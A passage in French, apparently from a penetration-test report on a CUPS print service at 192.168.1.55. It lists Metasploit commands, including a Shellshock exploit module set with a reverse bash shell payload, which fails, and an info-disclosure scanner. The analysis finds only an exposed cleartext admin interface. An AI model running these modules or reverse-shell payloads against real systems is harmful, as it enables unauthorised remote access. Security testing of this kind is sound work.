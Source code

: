 #### Tests réalisés
```bash
use exploit/multi/http/cups_bash_env_exec
set RHOSTS 192.168.1.55
set PAYLOAD cmd/unix/reverse_bash
run
```
![alt text](image-36.png)

➡️ Résultat : **échec** (aucun CGI vulnérable détecté).

```bash
use auxiliary/scanner/misc/cups_browsed_info_disclosure
set RHOSTS 192.168.1.55
run
```
➡️ Résultat : récupération de quelques URLs internes liées aux imprimantes, mais aucune donnée sensible exploitable.

#### 📊 Analyse
- Le service est bien exposé et accessible via HTTP.  
- Les modules Metasploit testés n’ont pas permis d’obtenir une exécution de code ou un accès non autorisé.  
- Les vulnérabilités connues (Shellshock, RCE IPP) ne s’appliquent pas à cette version/configuration.  
- La principale faiblesse reste la présence de l’interface d’administration en clair, accessible à distance.  
